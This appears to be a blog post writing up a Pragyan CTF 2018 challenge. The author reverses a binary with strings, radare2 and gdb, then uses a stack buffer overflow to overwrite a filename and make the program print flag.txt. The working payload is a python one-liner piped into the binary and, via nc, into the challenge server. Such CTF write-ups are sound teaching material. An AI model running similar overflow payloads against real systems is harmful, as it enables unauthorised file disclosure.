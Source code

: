 ```yaml
---
layout: post
title:  "[Pragyan CTF 2018] Old school hack"
date:   2018-03-02 14:52:25 +0000
categories: "CTF"
comments: true
---
```


I played [Pragyan CTF](https://ctf.pragyan.org/home) for a few challenges and I thought the "Old School Hack" challenge would be great for a first post.

Gatheting information
---------------------

The challenge is running at 28.199.224.175:13000, but it also comes with a binary file named "police_academy" so let's start with it:
{% highlight html %}
└───▶ file police_academy
police_academy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=db4dffbb6fd12d16c55cab166d1d1a9698374b5f, not stripped
{% endhighlight %}
The **file** command informs us that this binary is an ELF for x86-64 architectures, that it's dynamically linked and most importantly that it's not stripped so it should be easier to disassemble.

Then comes the obvious **strings** command, which will give us useful information:
{% highlight html %}
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Enter password to authentic yourself :
kaiokenx20
Incorrect password. Closing connection.
Enter case number:
	 1) Application_1
	 2) Application_2
	 3) Application_3
	 4) Application_4
	 5) Application_5
	 6) Application_6
	 7) Flag
	 Enter choice :-
You don't have the required privileges to view the flag, yet.
No such record exists. Please verify your choice.
{% endhighlight %}
Yeah, a lot of things.

### First detonation

Let's run the binary and see what it does:
{% highlight shell %}
└───▶ chmod +x police_academy
┌─[✔]───[fabien@fabien-pc]───[pragyan_ctf]───[10 files, 72K]
└───▶ ./police_academy
Enter password to authentic yourself :
{% endhighlight %}
Hmmm... It asks for a password. At this point we can note the first input field of the program, it can be useful for later. I tried several random characters; didn't work.

Maybe our input password will merely be compared to another string that is hardcoded in the binary, and if so, this string should be in the **strings** output. But let's be clear here, I just randomly tried the string "kaiokenx20" just after "Enter password to authentic yourself :" before thinking about this because it was too big to not try, and it works.
{% highlight html %}
└───▶ ./police_academy
Enter password to authentic yourself : kaiokenx20
Enter case number:

	 1) Application_1
	 2) Application_2
	 3) Application_3
	 4) Application_4
	 5) Application_5
	 6) Application_6
	 7) Flag

	 Enter choice :-
{% endhighlight %}

Second input field. Now obvisouly, let's try the option 7 "Flag":
{% highlight html %}
	 Enter choice :- 7
You don't have the required privileges to view the flag, yet.
{% endhighlight %}
Yeah, it may not be that easy. The other options just close the connection, but we'll see why later. Let's try to find something interesting in the disassembly code.

Static analysis
---------------------
I used radare2 + cutter as a GUI (which is very cool to use) to disassemble the binary. Let's examine our first input, and navigate to the first **scanf** call:
{% highlight nasm %}
0x004009e1           call sym.imp.__isoc99_scanf
0x004009e6           lea  rax, qword rbp - 0x40
0x004009ea           mov  edx, 0xa
0x004009ef           mov  esi, str.kaiokenx20                         ; 0x400ec8 ; "kaiokenx20"
0x004009f4           mov  rdi, rax
0x004009f7           call sym.imp.strncmp
{% endhighlight %}

 After the first **scanf**, we can observe that our input is indeed compared to *kaiokenx20*, but it uses **strncmp** with the first 10 characters (the last parameter seems to be *edx* which is 0xa). Thus, for example **strncmp("kaiokenx20", "kaiokenx20AAAA", 10)** should return 0. We will exploit this later. Also, our input is *rbp-0x40* in the stack.

 Next **scanf**:
 {% highlight nasm %}
 lea  rax, qword rbp - 0x48
0x00400ab6           call sym.imp.__isoc99_scanf
0x00400abb           mov  eax, dword [local_48h]
0x00400abe           cmp  eax, 7                                      ; 7
0x00400ac1           ja   0x400cb8
{% endhighlight %}
Our second input is *rbp - 0x48* in the stack and is compared to 7 which is the number of options. If above (ja), it jumps to 0x400cb8. I thought in the first place that it was the end of the main function. But nope, just before a function called **print_record**.

Just after the jump, there is another jump and 6 times the almost same code pattern.
 {% highlight nasm %}
 0x00400ac7           mov  eax, eax
 0x00400ac9           mov  rax, qword [rax*8 + 0x401028]               ; [0x401028:8]=0x400cb8 "H.E.H........E..}..u....@"
 0x00400ad1           jmp  rax

 0x00400ad3           lea  rax, qword rbp - 0x30
 0x00400ad7           movabs rcx, 0x3037303838356132
 0x00400ae1           mov  qword [rax], rcx
 0x00400ae4           movabs rdx, 0x3566356538656130
 0x00400aee           mov  qword [rax + 8], rdx
 0x00400af2           movabs rcx, 0x6339666439616331
 0x00400afc           mov  qword [rax + 0x10], rcx
 0x00400b00           movabs rdx, 0x6436353334346135
 0x00400b0a           mov  qword [rax + 0x18], rdx
 0x00400b0e           mov  dword [rax + 0x20], 0x7461642e              ; [0x7461642e:4]=-1
 0x00400b15           mov  byte [rax + 0x24], 0
 0x00400b19           jmp  0x400cb8
{% endhighlight %}
The first three lines will jump to one of these patterns, for instance to 0x00400ad3 if we choose the first option. It clearly constructs a string which is placed just after our first input in the stack... Seems like a buffer overflow exploitation. This is in little endian so the string is:
 {% highlight html %}
0x3037303838356132 + 0x3566356538656130 + 0x6339666439616331 + 0x6436353334346135 + 0x7461642e =
38303730326135386535663530616538646639633163613933353664356134342E646174 =
80702a58e5f50ae8df9c1ca9356d5a44.dat
{% endhighlight %}
It also adds a null byte at the end, to terminate the string (0x00400b15). Then, it jumps just before **print_record** again.

A quick look at this function seems to show that it first checks the lenght of a string (the one it just constructed?), compares it to 36 (0x24) (which is the size of the constructed string again), and if it's not equal quits the function. Otherwise it will try to open the file and print what's inside (**fopen** and **fread**).

For the option 7, it constructs the string "flag.txt". We can now easily assume that the flag is in this file.

Dynamic analysis
---------------------
Let's now run it with gdb. For now I just want to see if it's gonna open the file named *80702a58e5f50ae8df9c1ca9356d5a44.dat* for the first option. I'll just set a breakpoint at the **fopen** instruction to see if the string is one of its arguments:
{% highlight nasm %}
gdb-peda$ r <<<$(python -c "print('kaiokenx20' + '\n' +'1')")
...
	0x4008cf <print_record+73>:	mov    rax,QWORD PTR [rbp-0x348]
	0x4008d6 <print_record+80>:	mov    esi,0x400d98
	0x4008db <print_record+85>:	mov    rdi,rax
	=>0x4008de <print_record+88>:	call   0x400750 <fopen@plt>
	0x4008e3 <print_record+93>:	mov    QWORD PTR [rbp-0x338],rax
	0x4008ea <print_record+100>:	cmp    QWORD PTR [rbp-0x338],0x0
	0x4008f2 <print_record+108>:	jne    0x4008fe <print_record+120>
	0x4008f4 <print_record+110>:	mov    eax,0xffffffff
Guessed arguments:
arg[0]: 0x7fffffffe010 ("2a5880700ae8e5f51ca9df9c5a44356d.dat")
arg[1]: 0x400d98 --> 0x72 ('r')
{% endhighlight %}
Yep, looks like it will try to open *2a5880700ae8e5f51ca9df9c5a44356d.dat*. I created a file with this name and some random characters in it and yes it opens and outputs it.

We also want to give a look on how and where the string is placed in the stack.  Let's set a breakpoint before the call to **print_record** in the **main** function:
{% highlight nasm %}
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdff0 --> 0x0
0008| 0x7fffffffdff8 --> 0x1
0016| 0x7fffffffe000 ("kaiokenx20")
0024| 0x7fffffffe008 --> 0x3032 ('20')
0032| 0x7fffffffe010 ("2a5880700ae8e5f51ca9df9c5a44356d.dat")
0040| 0x7fffffffe018 ("0ae8e5f51ca9df9c5a44356d.dat")
0048| 0x7fffffffe020 ("1ca9df9c5a44356d.dat")
0056| 0x7fffffffe028 ("5a44356d.dat")
[------------------------------------------------------------------------------]
{% endhighlight %}
Following our first input, we have the name of the file to open. And note that the **print_record** function read the same string at the same address (0x7fffffffe010).

It's now easy to think of a potential payload:

+ First we have the password buffer which is not controlled and with which we can write futher down the stack. Remember, the password buffer is at *rbp-0x40* and the file name should start at *rbp - 0x30*. The password string should be 16 characters.
+ Then, we will write the name of the file. It has to be 36 characters long to match the **strlen** test in **print_record**.
+ Finally, we have to choose an option above 7 to jump directly to **print_record**.

A potential payload should be:

{% highlight shell %}
python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | ./police_academy
{% endhighlight %}

Now, let's create a file named "flag.txt" in the same folder as the binary. We'll try to read it.

{% highlight shell %}
└───▶ python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | ./police_academy
...
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

FLAG


XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

It works ! Now, let's try it on *28.199.224.175 13000*:

{% highlight shell %}
└───▶ python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | nc 128.199.224.175 13000
...
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

The flag is :- pctf{bUff3r-0v3Rfl0wS`4r3.alw4ys-4_cl4SsiC}
9^

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

Really easy one but it was kind of fun.
